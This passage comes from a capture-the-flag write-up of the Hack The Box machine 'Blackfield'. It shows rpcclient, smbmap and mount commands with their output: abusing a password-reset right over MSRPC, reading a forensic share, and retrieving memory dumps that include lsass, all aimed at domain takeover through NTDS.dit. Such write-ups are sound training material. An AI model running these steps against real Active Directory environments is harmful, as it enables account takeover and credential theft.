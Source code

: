 First thing to note is that our user, support, can change the password for the user audit2020. There is also another user, svc_backup, which is in the Backup Operators group. Members of this group usually have the SeBackupPivilege and SeRestorePrivilege, allowing them to read any files. Since we want to obtain control over the domain, we would read the NTDS.dit and the System hive (more on this later). To start our attack path, lets start by resetting the password of audit2020. While we don't have code exeuction on the computer to do this, we can use the MSRPC service to our advantage. 

```
┌──(root💀kali)-[/home/kali/GithubTools/impacket]
└─# rpcclient -U 'support%#00^BlackKnight' 10.10.10.192                                                             
rpcclient $> setuserinfo audit2020 23 'OrbitalNumber1'

//The 23 specifies the command to use the privilege information of the user we authenticated as, and because user //support has the privilege to overwrite the audit user's password, this works.
```

Our suspicions from earlier turn out to be true; we can read from the forensic share.

```
┌──(root💀kali)-[/home/kali/HackTheBox/Blackfield]
└─# smbmap -H 10.10.10.192 -u 'audit2020' -p 'OrbitalNumber1'
[+] IP: 10.10.10.192:445        Name: blackfield.htb                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        forensic                                                READ ONLY       Forensic / Audit share.
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        profiles$                                               READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share
```

While trying to exfiltrate the files from the share, they turned out to be too large so I ended up just mounting the share onto my own host.

```
┌──(root💀kali)-[/home/kali/HackTheBox/Blackfield]
└─# mount //10.10.10.192/forensic ./tmp/ -o username=audit2020 
Password for audit2020@//10.10.10.192/forensic:

┌──(root💀kali)-[/home/kali/HackTheBox/Blackfield]                                                     
└─# ls -laR tmp/* 
                                                                                                       
tmp/memory_analysis:                                                                                   
total 506004                                                                                           
drwxr-xr-x 2 root root         0 May 28  2020 .                                                        
drwxr-xr-x 2 root root      4096 Feb 23  2020 ..                                                       
-rwxr-xr-x 1 root root  37876530 May 28  2020 conhost.zip                                              
-rwxr-xr-x 1 root root  24962333 May 28  2020 ctfmon.zip                           
-rwxr-xr-x 1 root root  23993305 May 28  2020 dfsrs.zip                                                
-rwxr-xr-x 1 root root  18366396 May 28  2020 dllhost.zip                       
-rwxr-xr-x 1 root root   8810157 May 28  2020 ismserv.zip                                
-rwxr-xr-x 1 root root  41936098 May 28  2020 lsass.zip                              
-rwxr-xr-x 1 root root  64288607 May 28  2020 mmc.zip                                                  
-rwxr-xr-x 1 root root  13332174 May 28  2020 RuntimeBroker.zip                                        
```